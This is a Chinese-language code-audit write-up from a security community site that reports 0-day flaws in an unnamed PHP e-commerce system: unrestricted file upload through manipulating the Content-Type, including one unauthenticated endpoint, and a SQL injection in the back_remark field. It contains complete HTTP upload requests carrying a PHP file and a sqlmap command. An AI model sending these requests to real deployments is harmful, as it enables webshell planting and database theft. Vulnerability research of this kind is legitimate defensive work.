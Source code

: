 

# PHP 代码审计 - 某电商管理系统 0Day 分析 - 先知社区

PHP 代码审计 - 某电商管理系统 0Day 分析

- - -

最新源码下载，最近一次更新在 22 天前

[![](assets/1709530737-9b3bdee704b1fa39b678eb4a633472e7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301140751-09001834-d792-1.png)

## 代码审计

### 后台文件上传 Getshell(web 和小程序)

[![](assets/1709530737-386fc25bacafe1a494ad0e585b152073.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301142431-5d8a71ea-d794-1.png)

尝试上传点随便上传点东西看看上传接口在哪里，虽然报错了但至少知道了源码的位置

进行代码分析在/app/webapp/modules/system/actions/uploadImgAction.class.php 中结合请求包我们尝试进行 debug

[![](assets/1709530737-b9a0b2f77e243350871fb02999dc9417.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141145-94cce874-d792-1.png)

在 debug 过程中发现一个 replace 语句其中将我们的$\_FILES\['imgFile'\]\['type'\]中的 image/换成了点，那么我们的 $\_FILES\['imgFile'\]\['type'\]为请求包中的 Content-Type: application/octet-stream部分

```plain
$type = str_replace('image/', '.', $_FILES['imgFile']['type']);
```

[![](assets/1709530737-ba52a216fedbcb02cdcbbf3cdb87d467.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141247-b95c5f80-d792-1.png)

并且在替换后有一个拼接操作，进行源码分析

```plain
$imgURL=($_FILES['imgFile']['tmp_name']);
//进行替换操作
$type = str_replace('image/', '.', $_FILES['imgFile']['type']);
//将替换后的内容进行拼接，这里导致了我们后缀可控
$imgURL_name=time().mt_rand(1,1000).$type;
//移动操作
move_uploaded_file($imgURL,$uploadImg.$imgURL_name);
$image = $uploadImg . $imgURL_name;
echo json_encode(array("error"=>$error,"url"=>$image,'message'=>$msg));
```

如果我们将 Content-Type: application/octet-stream修改为Content-Type: image/php那么拼接时会变成.php的后缀。

[![](assets/1709530737-58049edeff8ebc43bb10f30658bd2026.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141335-d6137b86-d792-1.png)

构造恶意请求包

```plain
POST /index.php?module=system&action=uploadImg HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------3521672959703348041050404464
Content-Length: 238
Origin: http://127.0.0.1:8080
Connection: close
Cookie: admin_mojavi=idaa1su8mvj9leoubg27osau0r
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------3521672959703348041050404464
Content-Disposition: form-data; name="imgFile"; filename="shell.php"
Content-Type: image/php

<?php phpinfo(); ?>
-----------------------------3521672959703348041050404464--
```

[![](assets/1709530737-39d4370406dc414f045f3b4b8e69f2b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141505-0b9c0048-d793-1.png)

访问

[![](assets/1709530737-24b8905aec2a886b80485e028877edfe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141410-eadbf5e8-d792-1.png)

### 后台文件上传

通过审计我们发现触发文件上传的点是因为存在 str\_replace 函数那么利用审计工具查看是否还有其他地方存在该漏洞点

```plain
str_replace('image/', '.', $_FILES['file']['type']);
```

[![](assets/1709530737-e1ec5c8487bd9d143db8a55d3c90fcab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141545-237e402c-d793-1.png)

审计/webapp/modules/extension/actions/uploadImgAction.class.php

[![](assets/1709530737-0e811ee62af4d31b220fadf2b0853f43.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303141551-7c46ed92-d925-1.png)

构造请求包

```plain
POST /index.php?module=extension&action=uploadImg HTTP/1.1
Host: 127.0.0.1:8080
Accept: */*
Accept-Encoding: identity
Cache-Control: no-cache
Content-Type: multipart/form-data; boundary=--------------------------371918364269932091066326
Cookie: admin_mojavi=idaa1su8mvj9leoubg27osau0r; XDEBUG_SESSION=PHPSTORM
User-Agent: PostmanRuntime-ApipostRuntime/1.1.0
Content-Length: 230

----------------------------371918364269932091066326
Content-Disposition: form-data; name="file"; filename="PassWaf_3.php"
Content-Type: image/php

<?php @phpinfo(); ?>
----------------------------371918364269932091066326--
```

[![](assets/1709530737-31f3aa23eda150dcbe70af32cb312967.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141819-7f657130-d793-1.png)

### 未授权文件上传

上述的文件上传只限于后台，如果没有登录无法利用因此尝试寻找是否存在其他上传点，利用审计工具查找关键字

[![](assets/1709530737-06291f502e623dd1740e2aee20c5973a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141919-a37dacfe-d793-1.png)

审计/webapp/modules/api/actions/userAction.class.php

```plain
public function upload(){
        // 查询配置表信息
        $sql = "select * from lkt_config where id = '1'";
        $r = lkt_gets($sql);
        if ($r) {
            $uploadImg = $r[0]->uploadImg;
            // 图片上传位置
            if (empty($uploadImg)) {
                $uploadImg = "../images";
            }
        } else {
            $uploadImg = "../images";
        }

        $imgURL = ($_FILES['file']['tmp_name']);
        $type = str_replace('image/', '.', $_FILES['file']['type']);
        $imgURL_name = time() . mt_rand(1, 1000) . $type;
        move_uploaded_file($imgURL, $uploadImg . $imgURL_name);
        echo $imgURL_name;
    }
```

和刚刚看到的后台内容类似，也是替换后拼接可以控制后缀，尝试上传  
因为是基于 TP 的因此我们构造接口调用，直接上传报错

```plain
POST /index.php?module=api&action=user&m=upload HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------323553422223467167571808530788
Content-Length: 243
Origin: http://127.0.0.1:8080
Connection: close
Cookie: admin_mojavi=idaa1su8mvj9leoubg27osau0r; XDEBUG_SESSION=PHPSTORM
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1


-----------------------------323553422223467167571808530788
Content-Disposition: form-data; name="imgFile"; filename="shell.php"
Content-Type:image/php

<?php phpinfo(); ?>
-----------------------------323553422223467167571808530788--
```

[![](assets/1709530737-ee0054d594656d18c2b434cbfc0ed268.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301142054-dc17a2d6-d793-1.png)

修改 name 为 file 即可，并且为测试是未授权将 Cookie 删除，这里虽然只返回了文件名但根据代码的审计发现其路径依旧为/images

```plain
POST /index.php?module=api&action=user&m=upload HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------323553422223467167571808530788
Content-Length: 240
Origin: http://127.0.0.1:8080
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1


-----------------------------323553422223467167571808530788
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type:image/php

<?php phpinfo(); ?>
-----------------------------323553422223467167571808530788--
```

[![](assets/1709530737-98e3231451ae0ede6e96cd43f9a0ab89.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301142202-04afdac4-d794-1.png)

### 前台 SQL 注入

代码分析/webapp/modules/api/actions/orderAction.class.php，发现 back\_remark 字段没有添加过滤

[![](assets/1709530737-c1086e1d25eb23b02996d79f7270f6a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303141616-8b246254-d925-1.png)

sqlmap 语句

```plain
#module=api&action=order&m=ReturnData
python sqlmap.py -u "http://127.0.0.1:8080/index.php?module=api&action=order&m=ReturnData" -data "id=1&oid=1&otype=1&re_type=1&back_remark=1" -p back_remark -dbs -batch
```
